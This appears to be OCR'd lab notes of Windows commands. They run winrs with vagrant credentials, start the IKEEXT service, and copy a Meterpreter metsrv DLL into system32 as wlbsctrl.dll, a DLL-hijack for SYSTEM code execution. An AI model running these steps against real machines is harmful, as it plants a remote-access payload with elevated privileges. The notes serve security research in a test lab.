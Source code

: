winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant ipconfig
winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant net start ikeext
winrm set winrm/config/client @{TrustedHosts="192.168.29.133"}
copy build\wlbsctrl.dll \\192.168.29.133\c$\windows\system32

copy build\loader.exe \\192.168.29.133\c$\windows\system32


winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant cmd /c dir c:\

dumpbin /exports

https://learn.microsoft.com/en-us/cpp/build/reference/decorated-names?view=msvc-170



set TARGET=172.16.65.129

copy build\test.dll \\172.16.65.129\c$\windows\system32

copy build\metsrv\metsrv.x64.dll \\172.16.65.129\c$\windows\system32\wlbsctrl.dll

copy build\metsrv\metsrv.x64.dll \\172.16.65.129\c$\test\metsrv.x64.dll

copy build\test.dll \\172.16.65.129\c$\test\test.dll